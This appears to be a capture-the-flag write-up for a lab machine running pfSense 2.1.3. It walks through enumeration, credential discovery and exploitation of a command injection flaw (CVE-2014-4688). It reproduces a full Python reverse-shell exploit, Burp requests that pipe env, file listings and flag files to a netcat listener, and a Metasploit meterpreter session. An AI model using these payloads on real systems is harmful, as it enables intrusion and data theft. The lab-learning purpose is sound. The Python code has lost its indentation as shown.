


Sense
Enumeration
Nmap
Nmap scan shows two ports open80 and 443 which means we have a webserver.
output
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-08 12:25 EST
Nmap scan report for 10.129.147.216
Host is up (0.17s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
80/tcp open http lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.129.147.216/
443/tcp open ssl/http lighttpd 1.4.35
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after: 2023-04-06T19:21:35
|_ssl-date: TLS randomness does not represent time
|_http-title: Login
|_http-server-header: lighttpd/1.4.35
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.86 seconds
pfsense
Googled the default credentials for pfsense is admin pfsense but we are not able to login with the defaul credentials. let's keep going.
Gobuster
Lets run dirbuster to find files and subdirectories.
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.129.147.216 -k -x txt
Result
Gobuster finds two files with status code 200 system-users.txt and changelog.txt that we can access and one of them has the username and a hint for the default password pfsense. we logged into the pfsense and we can see the version of psfsene 2.1.3 RELEASE

Let's google if there is any vulnerability for it on the exploitDB. There's a CVE for this specefic version. https://www.exploit-db.com/exploits/43560
#!/usr/bin/env python3
# Exploit Title: pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.
# Date: 2018-01-12
# Exploit Author: absolomb
# Vendor Homepage: https://www.pfsense.org/
# Software Link: https://atxfiles.pfsense.org/mirror/downloads/old/
# Version: <=2.1.3
# Tested on: FreeBSD 8.3-RELEASE-p16
# CVE : CVE-2014-4688
import argparse
import requests
import urllib
import urllib3
import collections
# pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.
# This script will return a reverse shell on specified listener address and port.
# Ensure you have started a listener to catch the shell before running!
parser = argparse.ArgumentParser()
parser.add_argument("--rhost", help = "Remote Host")
parser.add_argument('--lhost', help = 'Local Host listener')
parser.add_argument('--lport', help = 'Local Port listener')
parser.add_argument("--username", help = "pfsense Username")
parser.add_argument("--password", help = "pfsense Password")
args = parser.parse_args()
rhost = args.rhost
lhost = args.lhost
lport = args.lport
username = args.username
password = args.password
# command to be converted into octal
command = """
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("%s",%s));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
""" % (lhost, lport)
payload = ""
# encode payload in octal
for char in command:
payload += ("\\" + oct(ord(char)).lstrip("0o"))
login_url = 'https://' + rhost + '/index.php'
exploit_url = "https://" + rhost + "/status_rrd_graph_img.php?database=queues;"+"printf+" + "'" + payload + "'|sh"
headers = [
('User-Agent','Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0'),
('Accept', 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'),
('Accept-Language', 'en-US,en;q=0.5'),
('Referer',login_url),
('Connection', 'close'),
('Upgrade-Insecure-Requests', '1'),
('Content-Type', 'application/x-www-form-urlencoded')
]
# probably not necessary but did it anyways
headers = collections.OrderedDict(headers)
# Disable insecure https connection warning
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
client = requests.session()
# try to get the login page and grab the csrf token
try:
login_page = client.get(login_url, verify=False)
index = login_page.text.find("csrfMagicToken")
csrf_token = login_page.text[index:index+128].split('"')[-1]
except:
print("Could not connect to host!")
exit()
# format login variables and data
if csrf_token:
print("CSRF token obtained")
login_data = [('__csrf_magic',csrf_token), ('usernamefld',username), ('passwordfld',password), ('login','Login') ]
login_data = collections.OrderedDict(login_data)
encoded_data = urllib.parse.urlencode(login_data)
# POST login request with data, cookies and header
login_request = client.post(login_url, data=encoded_data, cookies=client.cookies, headers=headers)
else:
print("No CSRF token!")
exit()
if login_request.status_code == 200:
print("Running exploit...")
# make GET request to vulnerable url with payload. Probably a better way to do this but if the request times out then most likely you have caught the shell
try:
exploit_request = client.get(exploit_url, cookies=client.cookies, headers=headers, timeout=5)
if exploit_request.status_code:
print("Error running exploit")
except:
print("Exploit completed")
Exploitation
Manual Exploitation
We going to use the vulnerability https://www.proteansec.com/linux/pfsense-vulnerabilities-part-2-command-injection/ to do a command injection via burbsuit.
we can see that the vulnerability is in the Status->RRD Graph and it will open a page open the image in the new page. we can remove the rest of the text from the url and only leave with
https://10.129.147.216/status_rrd_graph_img.php?database
we can add queues to the end as it's mentioned on teh link above. and open bubsuite and intercept on. and send to reapeater.
GET /status_rrd_graph_img.php?database=queues;env|nc+10.10.16.10+9002 HTTP/1.1
Host: 10.129.147.216
Cookie: PHPSESSID=3ae3a7d6e57713b1a4abd15e586d10cf; cookie_test=1739042635
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive
You can play with the link but we can inject commands from here. I tried whoami and while listing on my attacker machine I get a root tried a few more commands. i did tri to use the / but its a bad character so we have to find a way to use the / to navigate to other directories. I used the env and got a list of the variable.
➜ Sense-10-129-147-216 nc -lvnp 9002
listening on [any] 9002 ...
connect to [10.10.16.10] from (UNKNOWN) [10.129.147.216] 13257
OLDPWD=/
HOME=/
PHP_FCGI_MAX_REQUESTS=500
PATH=/sbin:/bin:/usr/sbin:/usr/bin:/usr/local/bin:/usr/local/sbin
LANG=en_US.ISO8859-1
PHP_FCGI_CHILDREN=1
PWD=/var/db/rrd
HOME as it will give us a / to navigate through the files and directories.
I start a listener on the kali terminal and save the output to a filesystems.txt
then I change the exploit on the burbsuit repeater.
GET /status_rrd_graph_img.php?database=queues;find+${HOME}|nc+10.10.16.10+9002 HTTP/1.1
Host: 10.129.147.216
Cookie: PHPSESSID=3ae3a7d6e57713b1a4abd15e586d10cf; cookie_test=1739042635
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

Now we can cat the file we see almost all the sytemfiles for pfsense.
We can cat the user.txt and root.txt.
User.txt
GET /status_rrd_graph_img.php?database=queues;cat+${HOME}home${HOME}rohit${HOME}user.txt|nc+10.10.16.10+9002 HTTP/1.1
Host: 10.129.147.216
Cookie: PHPSESSID=3ae3a7d6e57713b1a4abd15e586d10cf; cookie_test=1739042635
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive
Root.txt
GET /status_rrd_graph_img.php?database=queues;cat+${HOME}root${HOME}root.txt|nc+10.10.16.10+9002 HTTP/1.1
Host: 10.129.147.216
Cookie: PHPSESSID=3ae3a7d6e57713b1a4abd15e586d10cf; cookie_test=1739042635
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

Lazy Easy Way
for this one we use metasploit
msf6 exploit(unix/http/pfsense_graph_injection_exec) > options
Module options (exploit/unix/http/pfsense_graph_injection_exec):
Name Current Setting Required Description
---- --------------- -------- -----------
PASSWORD pfsense yes Password to login with
Proxies no A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS 10.129.147.216 yes The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
RPORT 443 yes The target port (TCP)
SSL true no Negotiate SSL/TLS for outgoing connections
USERNAME rohit yes User to login with
VHOST no HTTP server virtual host
Payload options (php/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
LHOST 10.10.16.10 yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Automatic Target
View the full module info with the info, or info -d command.
msf6 exploit(unix/http/pfsense_graph_injection_exec) > set lhost tun0
lhost => 10.10.16.10
msf6 exploit(unix/http/pfsense_graph_injection_exec) > exploit
[-] Handler failed to bind to 10.10.16.10:4444:- -
[-] Handler failed to bind to 0.0.0.0:4444:- -
[-] Exploit failed [bad-config]: Rex::BindFailed The address is already in use or unavailable: (0.0.0.0:4444).
[*] Exploit completed, but no session was created.
msf6 exploit(unix/http/pfsense_graph_injection_exec) > set lport 5555
lport => 5555
msf6 exploit(unix/http/pfsense_graph_injection_exec) > run
[*] Started reverse TCP handler on 10.10.16.10:5555
[*] Detected pfSense 2.1.3-RELEASE, uploading intial payload
[*] Payload uploaded successfully, executing
[*] Sending stage (40004 bytes) to 10.129.147.216
[+] Deleted vQJUb
[*] Meterpreter session 1 opened (10.10.16.10:5555 -> 10.129.147.216:13036) at 2025-02-08 15:24:10 -0500
user and root flags.